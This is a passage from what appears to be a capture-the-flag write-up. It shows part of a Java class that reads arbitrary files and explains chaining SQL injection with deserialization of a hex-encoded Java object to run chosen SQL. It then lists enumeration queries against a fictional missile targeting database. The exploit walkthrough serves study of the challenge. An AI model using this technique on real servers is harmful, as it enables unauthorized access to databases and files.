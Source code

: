 ```
                    }
                }
            } else {
                Path path = Paths.get(pathOrStatement);
                try {
                    if (Files.notExists(path)) {
                        return "Path does not exist.";
                    } else if (Files.isDirectory(path)) {
                        // Use try-with-resources to ensure the stream is closed after use
                        try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                            return walk.skip(1) // skip the directory itself
                                    .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                    .collect(Collectors.joining("\n"));
                        }
                    } else {
                        // Assume it's a readable file
                        return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                    }
                } catch (IOException e) {
                    return "Error reading path: " + e.toString();
                }
            }
        }

        public String getpathOrStatement() {
            return pathOrStatement;
        }
    }

    ```


The response with jid = 1 contains a serialized Java object class. It indicates a vulnerability of DB namely "Remote Code Execution via Java Deserialization of Stored Database Objects" (Deserialization of Untrusted Data), if you rememebr from Reportinator challenge, section-3. 

We only need to change the constructor and send the binary as hexdecimal values to the server via SQL injection. The server will deserialized the object and update the values. The Java class will execute the SQL query we passed on. 

Let’s try some enumerations: 

```
-- To select all data from the pointing_mode table
; SELECT * FROM `missile_targeting_system`.`pointing_mode`

Return: id: 1 | numerical_mode: 0 |
```

=== ":simple-mysql: SQL"
    ```sql hl_lines="2 7 9 11" title="SQL Code"
    -- To select all data from the messaging table
    ; SELECT * FROM `missile_targeting_system`.`messaging`
    ```

=== ":material-source-repository-multiple: Return values"
    ![NanoSta](../img/objectives/o22/missile_targeting_system.png){ class=border }



```
-- To select all data from the target_coordinates table